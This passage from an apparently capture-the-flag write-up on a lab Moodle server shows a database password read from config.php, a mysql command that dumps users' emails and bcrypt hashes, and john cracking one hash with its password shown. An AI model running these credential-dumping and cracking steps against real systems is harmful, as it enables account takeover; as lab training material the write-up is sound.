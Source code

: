 * Moodle Database password in file \`/usr/local/www/apache24/data/moodle/config.php\` :

```plaintext
$CFG->dbtype    = 'mysqli';
$CFG->dbhost    = 'localhost';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
'dbport' => 3306,
```

Later I have found that we were only missing some paths in PATH finding `curl` installed. This was also needed to find `mysql` binary to dump the database credentials, as command line below, which was required once I wasn't in an interactive tty

```bash
$ find / -type f 2>/dev/null | grep -e "wget$" -e "curl$" -e "mysql$"
/usr/local/bin/curl
/usr/local/bin/mysql
/usr/local/share/bash-completion/completions/wget
/usr/local/share/bash-completion/completions/curl
/usr/local/share/bash-completion/completions/mysql
/usr/local/share/zsh/site-functions/_curl
/var/mail/mysql
```

Dumping the creds was possible with the command below:

```bash
$ /usr/local/bin/mysql -u moodle --password=PlaybookMaster2020 -e "use moodle; select email,username,password from mdl_user; exit" | grep -v 'student.'
mysql: [Warning] Using a password on the command line interface can be insecure.
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'exit' at line 1
email   username        password
root@localhost  guest   $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2
jamie@staff.schooled.htb        admin   $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
higgins_jane@staff.schooled.htb higgins_jane    $2y$10$n9SrsMwmiU.egHN60RleAOauTK2XShvjsCS0tAR6m54hR1Bba6ni2
phillips_manuel@staff.schooled.htb      phillips_manuel $2y$10$ZwxEs65Q0gO8rN8zpVGU2eYDvAoVmWYYEhHBPovIHr8HZGBvEYEYG
carter_lianne@staff.schooled.htb        carter_lianne   $2y$10$jw.KgN/SIpG2MAKvW8qdiub67JD7STqIER1VeRvAH4fs/DPF57JZe
```

Based on the hashes, created a file in the format username:hash and then ran `john`, where was obtained the password for account `jamie` as below

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt accounts.txt                                                                 Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx         (jamie)
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```
